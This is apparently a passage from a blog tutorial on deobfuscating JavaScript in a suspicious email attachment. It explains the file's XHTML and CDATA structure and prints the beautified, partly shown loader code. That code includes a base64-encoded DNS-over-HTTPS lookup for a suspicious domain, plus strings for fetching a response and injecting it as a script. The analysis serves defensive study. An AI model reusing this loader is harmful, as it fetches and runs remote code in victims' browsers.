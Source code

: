 Here are some of the things that stand out :

* Line 1 is the XML header
* Line 2 is defining an HTML XML Document
* Line 3 start of the HTML document
* Line 5 script tag containing JavaScript
* Line 5 also contains interesting code - xml:space="preserve">//<![CDATA[
* Line 6-7 JS code
* Line 8 interesting end for a JavaScript - //]]>
* Line 9 end of first script and started of second script
* Line 12-14 the HTML body that shows the message "Loading..."
* Line 15 end of the html - </html>


There are two script blocks in the attachment.  The first script block starts on Line 5 and it contains JavaScript code.  Line 5 contains some interesting code:

`xml:space="preserve">//<![CDATA[`

The first part `xml:space="preserve">` is at the end of the HTML script tag.  

Here is what it means [3]:

> The xml:space="preserve" directive says that space within element content is significant.

It's basically a XML parser instruction that specifies space is important.

The second part `//<![CDATA[` is the start of the JavaScript code. In JavaScript `//` denotes a comment.  

Here is what `<![CDATA[` means in XML [4]:

> The term CDATA means, Character Data. CDATA is defined as blocks of text that are not parsed by the parser, but are otherwise recognized as markup.
> ...
>
> Following is the syntax for CDATA section −
>
> ```
> <![CDATA[
>    characters with markup
> ]]>
> ```

The above also explains Line 8 of the attachment file.  `]]>` means it's the end of the CDATA section.  

This leaves line 6 and 7 that is the actual obfuscated JS code.  Lets take a closer look.

First, lets see if we can make the code more readable using a JS  beautifier.  There are many different websites online that provide this service.  On our sandbox, using the one [here](https://beautifier.io/) we beautify line 6 and 7.  Here is resulting code:

``` JavaScript
var v = window.atob("aHR0cHM6Ly9kbnMuZ29vZ2xlLmNvbS9yZXNvbHZlP25hbWU9ZmV0Y2guc2x6eGtjZWUuZ2xhbWlzYm91bmQuY29tJnR5cGU9VFhU");
var _0x2b42 = ['0xc', 'open', 'GET', 'onreadystatechange', 'status', 'readyState', 'parse', 'responseText', 'createElement', 'script', 'innerHTML', 'substring', 'send', 'push', 'shift', '0x0', '0x1', '0x2', '0x3', '0x4', '0x5', '0x6', '0x7', 'data', '0x8', '0x9', '0xa', '0xb', 'length', 'body'];
(function(_0x26248d, _0x33adc9) {
    var _0x47fb3a = function(_0xb8f9b1) {
        while (--_0xb8f9b1) {
            _0x26248d['push'](_0x26248d['shift']());
        }
    };
    _0x47fb3a(++_0x33adc9);
}(_0x2b42, 0x97));
var _0x58f7 = function(_0x3aa2b9, _0x591490) {
    _0x3aa2b9 = _0x3aa2b9 - 0x0;
    var _0x2886d9 = _0x2b42[_0x3aa2b9];
```

[1]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image1.png
[2]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image2.png
[3]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image3.png